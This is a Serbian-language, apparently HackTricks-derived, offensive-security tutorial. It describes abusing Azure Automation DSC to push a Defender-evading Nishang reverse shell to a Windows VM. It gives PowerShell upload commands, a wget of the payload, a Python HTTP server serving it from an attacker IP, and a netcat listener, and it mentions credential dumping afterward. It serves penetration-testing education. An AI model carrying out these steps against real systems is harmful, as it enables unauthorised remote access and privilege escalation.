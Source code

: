 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Proverite ceo post na:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Sažetak pripreme infrastrukture udaljenog servera (C2) i koraka

#### Pregled

Proces uključuje postavljanje infrastrukture udaljenog servera za hostovanje modifikovanog Nishang `Invoke-PowerShellTcp.ps1` payload-a, nazvanog `RevPS.ps1`, dizajniranog da zaobiđe Windows Defender. Payload se servira sa Kali Linux mašine sa IP `40.84.7.74` koristeći jednostavan Python HTTP server. Operacija se izvršava kroz nekoliko koraka:

#### Korak 1 — Kreirajte fajlove

- **Potrebni fajlovi:** Potrebna su dva PowerShell skripta:
1. `reverse_shell_config.ps1`: Fajl Desired State Configuration (DSC) koji preuzima i izvršava payload. Može se preuzeti sa [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skripta za objavljivanje konfiguracije na VM, dostupna na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Prilagođavanje:** Varijable i parametri u ovim fajlovima moraju biti prilagođeni specifičnom okruženju korisnika, uključujući imena resursa, putanje fajlova i identifikatore servera/payload-a.

#### Korak 2 — Zip konfiguracioni fajl

- `reverse_shell_config.ps1` se kompresuje u `.zip` fajl, čineći ga spremnim za prenos na Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Korak 3 — Postavi kontekst skladišta i otpremi

- Zipped konfiguracioni fajl se otprema u unapred definisani Azure Storage kontejner, azure-pentest, koristeći Azure-ovu Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Korak 4 — Priprema Kali Box-a

- Kali server preuzima RevPS.ps1 payload iz GitHub repozitorijuma.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Skripta je uređena da specificira ciljni Windows VM i port za reverznu ljusku.

#### Korak 5 — Objavi Konfiguracioni Fajl

- Konfiguracioni fajl se izvršava, što rezultira u tome da se skripta za reverznu ljusku postavlja na određenu lokaciju na Windows VM-u.

#### Korak 6 — Hostuj Payload i Postavi Listener

- Python SimpleHTTPServer se pokreće da hostuje payload, zajedno sa Netcat listener-om za hvatanje dolaznih konekcija.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zakazani zadatak izvršava payload, postižući privilegije na nivou SISTEMA.

#### Zaključak

Uspešna izvršenja ovog procesa otvara brojne mogućnosti za dalja delovanja, kao što su iskopavanje kredencijala ili proširenje napada na više VM-ova. Vodič podstiče kontinuirano učenje i kreativnost u oblasti Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
